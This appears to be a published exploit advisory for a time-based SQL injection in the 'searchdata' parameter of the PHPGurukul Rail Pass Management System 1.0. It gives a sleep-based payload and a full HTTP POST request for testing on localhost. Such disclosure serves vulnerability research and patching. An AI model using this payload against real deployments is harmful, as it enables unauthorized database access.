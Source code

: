 # Rail Pass Management System - 'searchdata' Time-Based SQL Injection
- Exploit Author: Alperen Yozgat
- Vendor Homepage: https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/
- Software Link: https://phpgurukul.com/?sdm_process_download=1&download_id=17479
- Version: 1.0
- Tested On: Kali Linux 6.1.27-1kali1 (2023-05-12) x86_64 + XAMPP 7.4.30

## Description
On the download-pass.php page, the searchdata parameter in the search function is vulnerable to SQL injection vulnerability.
## Proof of Concept
After sending the payload, the response time will increase to at least 5 seconds.
Payload: 1'or+sleep(5)--+-

## HTTP Request
```
POST /rpms/download-pass.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Cookie: PHPSESSID=6028f950766b973640e0ff64485f727b


searchdata=1'or+sleep(5)--+-&search=
```
